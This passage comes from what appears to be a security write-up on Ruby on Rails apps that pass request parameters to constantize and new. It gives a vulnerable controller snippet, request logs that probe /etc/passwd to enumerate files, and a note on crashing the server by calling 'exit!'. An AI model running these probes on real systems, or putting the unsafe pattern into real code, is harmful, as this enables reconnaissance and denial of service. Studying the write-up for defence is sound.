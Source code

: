 ```
Started GET "/teste/index?class=Devise" for 127.0.0.1 at 2013-02-10 21:14:14 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"Devise"}
  Rendered teste/index.html.erb within layouts/application (1.1ms)
Completed 200 OK in 403ms (Views: 401.8ms | ActiveRecord: 0.0ms)
```

**File and directory enumeration**

If the code makes a call to new with an user-controllable parameter, then you can use it to enumerate files and directories in the system. Example:
```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg])
        ...
    end
```
**Querying an existing file**

```
Started GET "/teste/index?class=File&arg=/etc/passwd" for 127.0.0.1 at 2013-02-10 21:20:05 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"File", "arg"=>"/etc/passwd"}
  Rendered teste/index.html.erb within layouts/application (0.1ms)
Completed 200 OK in 9ms (Views: 8.6ms | ActiveRecord: 0.0ms)
```
**Querying a non-existing file**

```
Started GET "/teste/index?class=File&arg=raaaaaaaa" for 127.0.0.1 at 2013-02-10 21:20:32 -0200
Processing by TesteController#index as HTML
  Parameters: {"class"=>"File", "arg"=>"raaaaaaaa"}
Completed 500 Internal Server Error in 0ms

Errno::ENOENT (No such file or directory - raaaaaaaa):
```

**Denial of Service**

It is possible to cause a Denial of Service attack, for example, by targeting classes which create symbols from user-controlled input or allow calling arbitrary methods. Example:

```
class TesteController < ApplicationController
    def index
        klass = params[:class].constantize
        obj = klass.new(params[:arg])
        ...
    end
```

**Taking advantage of ActionController::MimeResponds::Collector in Rails 3.2.12. Use "exit!" to shutdown the application server.**
